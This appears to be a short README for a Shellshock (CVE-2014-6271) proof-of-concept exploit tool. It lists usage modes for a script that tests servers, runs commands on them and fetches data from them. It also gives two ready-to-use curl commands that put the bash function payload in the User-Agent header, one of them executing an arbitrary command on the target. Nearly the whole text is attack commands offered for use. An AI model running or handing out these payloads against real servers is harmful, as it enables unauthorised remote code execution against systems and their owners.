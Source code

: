 CVE 2014-6271 PoC Tool by kaitoY 
==========
kaitoy@qq.com

Usage:

    shellshock.py -u <url> test
    shellshock.py -u <url> exec -c <command>
    shellshock.py -u <url> get

Manual commands:

    curl -i -X HEAD "<url>" -A '() { :;}; echo "Warning: Server Vulnerable"'
    curl -A '() { :;}; /bin/bash -c "<cmd>"' <url>